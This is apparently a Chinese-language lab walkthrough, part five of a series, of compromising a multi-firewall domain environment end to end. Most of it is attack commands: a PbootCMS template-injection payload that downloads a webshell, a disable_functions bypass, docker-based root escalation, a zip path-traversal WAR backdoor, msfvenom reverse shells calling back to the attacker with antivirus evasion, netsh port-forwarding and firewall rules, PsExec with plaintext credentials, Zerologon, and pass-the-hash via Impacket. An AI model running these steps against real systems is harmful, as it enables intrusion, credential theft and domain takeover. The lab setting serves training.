


打靶日记（五） 渗透高度安全的内网域控
声明：此系列文章系个人记录打靶过程的文章，靶场为暗月师傅的靶场。这是第五篇。
1.环境介绍
1.1环境介绍
本次靶场是一个高度安全的域控环境，存在多个防火墙，所以存在多个 dmz， 能有效隔离保护各个工作区。红队测试人员 需要从互联网从对外网 WEB 服务器 进行测试再进入内网服务器，进行资产收集，再渗透核心区域，打穿 AD 域控， 拿到域控的权限。本次靶场测试用到很多内网穿透技术，绕过杀软等红队技术。
1.2环境拓扑图
2.靶场搭建
3.信息收集
1 | netdiscover |
3.1masscan端口扫描
1 | masscan --ports 1-65535 192.168.8.121 --rate=1000 |
3.2. nmap 端口扫描与探查
1 | nmap -sC -A -p 22,888,3306,8888,21,80 192.168.8.121 -oA port-version-8 |
3.3. 端口信息整理
| 端口 | 版本信息 |
|---|---|
| 21 | Pure-FTPd |
| 22 | OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0 |
| 80 | 默认页面宝塔套件信息 |
| 888 | 403 Forbidden |
| 8888 | 宝塔后台登录提示 |
| 3306 | mysql |
3.4绑定host域名
1 | vim /etc/hosts |
4.1. 查看 cms 版本
cms 的渗透思路
确定 cms 版本 查看升级说明特别是漏洞公告然后进行文件对比定位漏洞分析漏洞与补丁
http://www.cf1.com/doc/ChangeLog.txt
4.2下载备份文件
用备份扫描器获取备份文件
1 | gobuster dir -u http://www.cf1.com -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x "tar.gz" -t 50 |
1 | http://www.cf1.com/config.tar.gz |
4.2.1下载 SQLITE 数据库文件
Bootcms 默认数据库是sqlite 默认下载data/pbootcms.db
查看database.php发现默认db位置已经修改
1 | data/c6613b090db86e60916afb3af6f923d2.db |
4.3Sqlitebrowser 读取数据库密文
1 | sqlitebrowser c6613b090db86e60916afb3af6f923d2.db |
| 账号 | 密码 | 明文 |
|---|---|---|
| admin | 8187bef2c0b83e6b0b747d92b0a65eb1 | admin7788 |
4.4登录后台拿 WEBSHELL
在kali使用中国蚁剑生成一个webshell保存为garck.txt文件，密码为garck
在当前目录启动一个python的web服务
python3 -m http.server 80
到后台中执行下面的代码
1 | {pboot:if(implode('',['f','i','l','e','_','p','u'.'t','_c','o','n','t','e','n','t','s'])(implode('',['3','.php']),implode('',['<?php file_','put_','contents(','"garck.php"',',file','_get_','contents |
访问x.php文件，就会去请求下载garck.txt文件然后再写入到garck.php文件中
注意：<?phpfile中php和file之间有个空格
发现中国蚁剑生成的webshell连接不上，这里使用另外一个免杀的shell
H:\OLD-HP-电脑\system\web\tools\一句\Webshell(1)\Webshell\PHP大马\PHP一句话\免杀一句话
密码：dhxh8r1l9t4rdqw
将webshell放入到自己的web服务器的garck.txt文件中
访问报错，但是能连接成功

5.绕过宝塔disable_functions
利用 php7-backtrace-bypass https://github.com/mm0r1/exploits
访问发现成功执行了uname -a
我们给它添加一个form表单
1 | <form > |
发现存在用户 cf1:x:1000:1000:CF1,,,:/home/cf1:/bin/bash
查看其用户目录，发现了一个私钥
6. 通过密钥登录 SSH
使用蚁剑下载私钥到本地，然后修改权限
1 | chmod 600 id_rsa |
7.利用docker提权root
1 | Id |
1 | docker run -v /etc:/mnt -it alpine |
下载不了镜像
到可以下载镜像的环境，下载之后然后导出，然后上传到目标，再导入
1 | sudo docker search alpine #搜索镜像 |
挂载/etc到镜像的/mnt，并且进入交互模式
1 | docker run -v /etc/:/mnt -it alpine |
生成一个用户的盐
1 | openssl passwd -1 --salt Garck |
然后输入密码，输入回车之后生成盐，这里输入123456
往 passwd 增加用户信息
这是root的信息：root:x:0:0:root:/root:/bin/bash
将x改成所生成的盐，然后把“/root”删除，修改后如下
garck:$1$garck$hu.Zjy0Tc/ljqRTEvpe58.:0:0::/root:/bin/bash
将其添加到passwd文件中
保存退出之后，切换用户，输入密码成功获得root权限
8.渗透内网 WEB 服务器
8.1.1. 在 cf1 安装 nmap 对内网进行主机发现
发现不能出网，查看dns的配置
root@08:/home/cf1# vi /etc/resolv.conf
8.1.2. nmap 扫主机端口
nmap -sn 192.168.0.0/24 -T4
对内网整个段主机发现
apt-get install nmap
nmap -sn 192.168.8.0/24 -T4 -v
1 | nmap -F 192.168.8.124 |

1 | apt-get install masscan |
访问8080端口
8.2登录后台 GETHSELL
后台弱口令 123456
http://192.168.8.124:8080/cmscp/
创建穿越漏洞压缩文件
1 | import zipfile |
上传文件解压后 没任何文件生成估计被杀软拦截了。
项目可以过杀软的 https://github.com/SecurityRiskAdvisors
上传后解压自动解压到 http://192.168.8.124:8080/cmd
将 war 文件后门加入目录压缩包
上传文件进行解压，访问页面http://192.168.8.124:8080/cmd/cmd.jsp，文件存在

修改cmd.jsp的地址
在一个web目录下新建一个111.html的文件，其内容如下：
1 | <script type="text/javascript" src="a.js"></script> |
同时将刚才修改好的a.js的文件也放到同一目录下，最后访问111.html文件，如下效果
执行whoami的效果，成功getshell
能够执行命令了 但是执行其他命令失败 上传文件也失败
8.3metasploit 生成 jsp shell
网上很多 war 都被系统自带的杀软查刚好发现 msf 自带得 jsp 可以绕过。
1 | msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.8.133 LPORT=8888 -f raw > shell.jsp |
打包成shell.war，然后同样放到压缩包中，然后上传解压
1 | jar -cvf shell.war shell.jsp |
打开msf，进行监听
1 | msfconsole |
得到 seesion 权限是管理员
8.4生成免杀 bypassAV
简单收集一下进行发现存在数个杀软
1 | net start |

1 | tasklist | find /i "360" |
生成免杀 bypassAV
简单收集一下进行发现存在数个杀软
使用CS生成一个C#的payload，结合免杀加载器进行生成一个木马
同样是放入到压缩文件中，压缩之后进行上传，然后点击解压，会解压到C:\tomcat\webapps
下面开始执行
生成的 exe 目前可以过 defender 和 360 全套
但是执行没有返回 shell 估计是被行
研究了一下过了(这里先添加到信任区，后面再自行研究免杀)
9.对 tomcat-web 内网服务器信息收集
1 | portscan 10.10.1.0-10.10.1.255 139 arp 1024 |
9.1MSF 后门 Bypass defende
1 | msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.8.133 LPORT=2333 -e x86/shikata_ga_nai -i 15 -f csharp -o payload-re.txt |
1 | use exploit/multi/handler |
在CS中上传和运行
现在可以在 metasploit下操作了
添加路由 开启 socks5
1 | use auxiliary/server/socks_proxy |
9.2. 防火墙拦截
nmap 对 10.10.1.128 对其端口扫描
proxychains nmap -sT -Pn 10.10.1.128 -p 139,445
445端口没扫出来

在CS使用ARP扫描
9.3ipc 空链接
访问 FILESERVER 服务器
可以访问到文件服务器。
10.metasploit shellcode 免杀
10.1开启 tomcat 服务器远程桌面
run getgui -e
10.2. 绕过 CredSSP 错误信息
没办法连接，估计是被拦截了，下面把目标的3389转发到本地
portfwd add -l 3389 -p 3389 -r 192.168.8.124
这里是使用CS的方式，第二个方式进行转发
rportfwd 3389 192.168.8.124 3389
可以连接，但是版本不匹配，无法连接成功，需要在同一系统的远程桌面进行连接

10.3. 破解 tomcat 服务器管理员 hash
远程登录到目标服务器，然后将杀毒软件都关闭
11. 添加 ipsec 入站规则
使用msf生成一个反弹shell的木马
1 | msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.1.129 LPORT=7788 -e x86/shikata_ga_nai -i 15 -f csharp -o payload-re-7788.txt |
上传到tomcat的服务器中
11.1sc 复制文件到文件服务器
1 | shell copy C:\tomcat\webapps\msf.exe \\10.10.1.128\c$ |

查看是否已经复制到目标

本地先开启监听
1 | use exploit/multi/handler |
上传PsExec64.exe到tomcat服务器，使用它来执行目标的msf.exe
1 | PsExec64.exe \\10.10.1.128 -u administrator -p QWEasd123 -i c:/msf.exe |
添加 ipsec 入站规则
在添加规则之前要登录系统把 360 安全卫士关掉，不然会进行 netsh 拦截
1 | shell netsh interface portproxy add v4tov4 listenport=7788 connectaddress=192.168.8.133 connectport=7788 |
查看规则
1 | shell netsh interface portproxy show all |
在tomcat服务器增加防火墙允许的端口进来
1 | netsh advfirewall firewall add rule name="7788" protocol=TCP dir=in localport=7788 action=allow |
11.2执行文件
然后到tomcat服务器运行以下命令
1 | PsExec64.exe \\10.10.1.128 -u administrator -p QWEasd123 -i c:/msf.exe |
查看msf的上线情况，发现已经成功上线了
1 | run autoroute -s 10.10.10.0/24 |
1 | use auxiliary/server/socks_proxy |
12.对 ad(域)网段进行信息收集
12.1nmap 跨网段扫描 AD 域控端口
1 | proxychains nmap -sT -Pn 10.10.10.139 -p 88,445,139,80 |
1 | run post/windows/gather/enum_domain |
1 | run post/windows/gather/enum_computers |
看到端口信息 可以确定这台是域控 CVE-2020-1472: NetLogon 打穿域
存在漏洞 可以进行利用 密码重置
1 | proxychains ./cve-2020-1472-exploit.py dc 10.10.10.139 |

12.2Impacket secretsdump 获取域控哈希
1 | proxychains python3 secretsdump.py fbi/dc\$@10.10.10.139 -just-dc -hashes : |
12.3Impacket smbexec.py 登录域
1 | proxychains python3 smbexec.py -hashes aad3b435b51404eeaad3b435b51404ee:669a3273144a82b942377c1001ed03a3 administrator@10.10.10.139 |